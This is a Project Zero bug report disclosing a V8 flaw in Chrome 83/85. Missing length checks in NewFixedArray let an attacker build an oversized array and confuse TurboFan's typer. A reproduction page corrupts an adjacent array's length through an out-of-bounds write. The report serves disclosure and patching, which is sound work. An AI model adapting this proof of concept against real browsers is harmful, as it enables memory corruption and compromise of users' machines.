 <b>VULNERABILITY DETAILS</b>
V8 caps the number of elements a fixed array can contain[1]. Most of the code that needs to create
or resize a fast JS array (i.e. one that's backed by a fixed array rather than a dictionary) ends up
calling either the regular C++ function `AllocateRawFixedArray`[2] or its CSA equivalent
`AllocateFixedArray`[3]. Both functions validate the length parameter and terminate the execution
when the upper limit is exceeded.

Recently, the same operation has been implemented in Torque. The newly introduced functions
`NewFixedArray` and `NewFixedDoubleArray`, however, lack a similar length check:

```
macro NewFixedArray<Iterator: type>(length: intptr, it: Iterator): FixedArray {
  if (length == 0) return kEmptyFixedArray;
  return new
  FixedArray{map: kFixedArrayMap, length: Convert<Smi>(length), objects: ...it};
}

macro NewFixedDoubleArray<Iterator: type>(
    length: intptr, it: Iterator): FixedDoubleArray|EmptyFixedArray {
  if (length == 0) return kEmptyFixedArray;
  return new FixedDoubleArray{
    map: kFixedDoubleArrayMap,
    length: Convert<Smi>(length),
    floats: ...it
  };
}
```

I've discovered two (indirect) users of `NewFixedArray` that can be abused to create an array with
an invalid length. The first one is `ArrayPrototypeSplice`[5]. An attacker can call `splice` to add
extra elements to a fast JS array that's just below the size limit. However, naively appending
elements in a loop in order to obtain such an *enormous but still valid* array would fail and
trigger an out-of-memory crash. A possible (and really quick) alternative is to merge a smaller
array with itself several times:

```
array = Array(0x80000).fill(1);
array.prop = 1;
args = Array(0x100 - 1).fill(array);
args.push(Array(0x80000 - 4).fill(2));
giant_array = Array.prototype.concat.apply([], args);
giant_array.splice(giant_array.length, 0, 3, 3, 3, 3);
```

Another function that transitively calls `NewFixedArray` is `RegExpPrototypeMatch`[6]. In this case,
no preliminary array manipulation is required, although it's significantly slower:

```
giant_array = /a/g[Symbol.match]('a'.repeat(0x8000000));
```

The attacker can exploit this issue to confuse TurboFan's typer about the possible range of the
length property of a fast JS array and use the confusion to bypass security checks, similarly to,
for example, https://crbug.com/1051017. Unfortunately, the bounds check elimination technique from
previous exploits is still viable due to a bug in one the hardening patches[7] for the typer:

```
Reduction TypedOptimization::ReduceMaybeGrowFastElements(Node* node) {
[...]
  if (!index_type.IsNone() && !length_type.IsNone() &&
      index_type.Max() < length_type.Min()) {
    Node* check_bounds = graph()->NewNode(
        simplified()->CheckBounds(FeedbackSource{},
                                  CheckBoundsFlag::kAbortOnOutOfBounds),
        index, length, effect, control);
    ReplaceWithValue(node, elements);
    return Replace(check_bounds);
  }

  return NoChange();
}
```

The patch adds a `CheckBounds` node to prevent OOB write access when the typer incorrectly assumes
that a given array will never have to be extended. The problem is that the new node has no output
edges: by the time `Replace` is called, the original node's effect edge has been already modified by
`ReplaceWithValue`, and the value output from the `CheckBounds` node is never used. Therefore, the
new node always gets eliminated in one of the subsequent optimization passes.

There's also another `CheckBounds` node that verifies the array index is less than `length + 1024`,
so the attacker has to employ the OOB access to overwrite data located relatively close to the
array. A good candidate, which immediately presents a powerful exploitation primitive, is the length
field of another fast array.

---

[1] - https://cs.chromium.org/chromium/src/v8/src/objects/fixed-array.h?rcl=5db4a28ef75f893e85b7f505f5528cc39e9deef5&l=172
[2] - https://cs.chromium.org/chromium/src/v8/src/heap/factory-base.cc?rcl=5db4a28ef75f893e85b7f505f5528cc39e9deef5&l=732
[3] - https://cs.chromium.org/chromium/src/v8/src/codegen/code-stub-assembler.cc?rcl=5db4a28ef75f893e85b7f505f5528cc39e9deef5&l=3805
[4] - https://chromium.googlesource.com/v8/v8.git/+/bc0c25b4a0cd29d12bb5acb800b85dbb265580cb%5E%21/src/objects/fixed-array.tq
[5] - https://cs.chromium.org/chromium/src/v8/src/builtins/array-splice.tq?rcl=2e7c4b6690947264ad147d23706e2a4cb2775b7e&l=358
[6] - https://cs.chromium.org/chromium/src/v8/src/builtins/regexp-match.tq?rcl=2e7c4b6690947264ad147d23706e2a4cb2775b7e&l=144
[7] - https://chromium.googlesource.com/v8/v8.git/+/c85aa83087e7146281a95369cadf943ef78bf321%5E%21/#F1


<b>REPRODUCTION CASE</b>
```
<script>
array = Array(0x40000).fill(1.1);
args = Array(0x100 - 1).fill(array);
args.push(Array(0x40000 - 4).fill(2.2));
giant_array = Array.prototype.concat.apply([], args);
giant_array.splice(giant_array.length, 0, 3.3, 3.3, 3.3);

length_as_double =
    new Float64Array(new BigUint64Array([0x2424242400000000n]).buffer)[0];

function trigger(array) {
  var x = array.length;
  x -= 67108861;
  x = Math.max(x, 0);
  x *= 6;
  x -= 5;
  x = Math.max(x, 0);

  let corrupting_array = [0.1, 0.1];
  let corrupted_array = [0.1];

  corrupting_array[x] = length_as_double;
  return [corrupting_array, corrupted_array];
}

for (let i = 0; i < 30000; ++i) {
  trigger(giant_array);
}

corrupted_array = trigger(giant_array)[1];
alert('corrupted array length: ' + corrupted_array.length.toString(16));
corrupted_array[0x123456];
</script>
```


<b>VERSION</b>
Google Chrome 83.0.4103.61 (Official Build)
Chromium  85.0.4158.0 (Developer Build) (64-bit)


<b>CREDIT INFORMATION</b>
Sergei Glazunov of Google Project Zero


This bug is subject to a 90 day disclosure deadline. After 90 days elapse, the bug report will
become visible to the public. The scheduled disclosure date is 2020-08-25. Disclosure at an earlier
date is possible if agreed upon by all parties.